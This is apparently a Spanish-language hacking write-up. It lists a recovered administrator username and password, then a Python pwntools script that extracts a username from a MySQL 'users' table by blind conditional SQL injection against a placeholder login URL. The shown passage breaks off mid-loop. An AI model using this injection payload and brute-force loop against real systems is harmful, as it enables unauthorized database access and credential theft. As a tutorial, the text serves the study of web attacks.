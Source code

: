```
username = administrator
password = jc9kmc948berlabi1y60
```

Nos registramos y ya estaria hecho...

## <mark style="color:purple;">SQL Injection Script</mark>

Con el siguiente script de `python` podremos determinar el `username` del usuario en la tabla llamada `users` mediante `SQL Injection` con el tipo de base de datos `mysql` y la tecnica llamada `SQLI_Conditional`...

Para que funcione la barra de decoracion que se esta importando en el script hacemos lo siguiente...

```shell
pip install pwn
```

Una vez hecho eso, ejecutamos el script...

```python
#!/usr/bin/python3

from pwn import *
import requests, pdb, string, signal, sys, time

def def_handler(sig, frame):
        print("\n\n[!] Saliendo...\n")
        sys.exit(1)

# Ctrl+C
signal.signal(signal.SIGINT, def_handler)

# Variables globales
login_url = "http://<IP>/<LOGIN>"
characters = string.ascii_lowercase + "-_"

def makeRequest():

        p1 = log.progress("Fuerza bruta")
        p1.status("Iniciando proceso de fuerza bruta")

        time.sleep(2)

        username = ""

        p2 = log.progress("Usuario")

        for position in range(1, 20):   #El rango de caracteres que pueda tener el usuario
                for character in characters:
                        post_data = {
                                'username' : "' or (select substring(username, %d,1) from users limit 1)='%s'-- -" % (position, character),     #Donde pone username de esta linea es el contenido de la tabla que en este caso se llama username que queremos descubrir ya que por defecto la tabla se llama asi, y la otra por defecto para saber en nombre de usuario es name la cual tambien tendriamos que probar, si no supieramos nada de esto, tendriamos que empezar explotando el nombre de la base de datos...
                                'password' : 'test'
                        }

                        p1.status(post_data['username'])

                        r = requests.post(login_url, data=post_data)

```